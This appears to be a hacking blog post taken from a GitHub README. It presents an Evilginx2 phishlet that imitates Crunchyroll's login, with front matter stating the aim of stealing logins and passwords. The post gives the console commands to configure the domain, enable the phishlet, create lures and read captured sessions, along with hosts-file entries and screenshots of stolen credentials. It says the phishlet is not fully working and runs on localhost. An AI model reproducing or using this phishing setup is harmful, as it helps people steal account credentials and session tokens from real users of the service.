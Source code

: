 ```yaml
---
title: "Evilginx2 Phishlet para Crunchyroll"
excerpt: "Aprenda a criar uma página falsa da Crunchyroll para roubar login e senha usando Evilginx2."
categories:
  - Hacking
tags:
  - Evilginx2
  - Phising
  - Crunchyroll
  - Crunchyroll phising
  - Roubo de login e senha

toc: true
---
```


crunchyroll phishlet for evilginx2.

Download the phishlet here [crunchyroll.yaml](https://github.com/BieAnimaton/evilginx2-crunchyroll/blob/main/crunchyroll.yaml).

# evilginx2-crunchyroll

crunchyroll phishlet for evilginx2.  
capture the login or register credentials.  
it's not fully working.  

using localhost.

## steps
download or clone this file and extract inside phishlet folder.  
start evilginx.  

`config domain crunchyroll.com`  
`config ipv4 127.0.0.1`

`phishlets hostname crunchyroll login.crunchyroll.com`  
`phishlets enable crunchyroll`  
`phishlets get-hosts crunchyroll`

	127.0.0.1 www.login.crunchyroll.com
	127.0.0.1 sso.login.crunchyroll.com
	127.0.0.1 static.login.crunchyroll.com
	
	# add to C:/Windows/System32/Driver/etc/hosts or /etc/hosts

`lures`  
`lures create crunchyroll -> check generated ID`  
`lures get-url ID`  

	https://sso.login.crunchyroll.com/innRipMA

go to your browser
clear all history
access the generated link
after login or registration get credentials

`sessions`  

## captures

![1](https://github.com/BieAnimaton/evilginx2-crunchyroll/assets/52220244/b7108ade-658c-4a0e-a017-aebca968f8cc)

![2](https://github.com/BieAnimaton/evilginx2-crunchyroll/assets/52220244/df2177dd-38e2-4db0-8855-197e3a44f498)

![3](https://github.com/BieAnimaton/evilginx2-crunchyroll/assets/52220244/4e4027fa-e65b-4555-8734-e5e9db1abe27)

credentials will appear in the console

![4](https://github.com/BieAnimaton/evilginx2-crunchyroll/assets/52220244/ddb43bac-1e5a-43fd-8a89-9c7524515a34)

sessions information

![5](https://github.com/BieAnimaton/evilginx2-crunchyroll/assets/52220244/82d44097-9113-4a36-a920-4ff474b43ad2)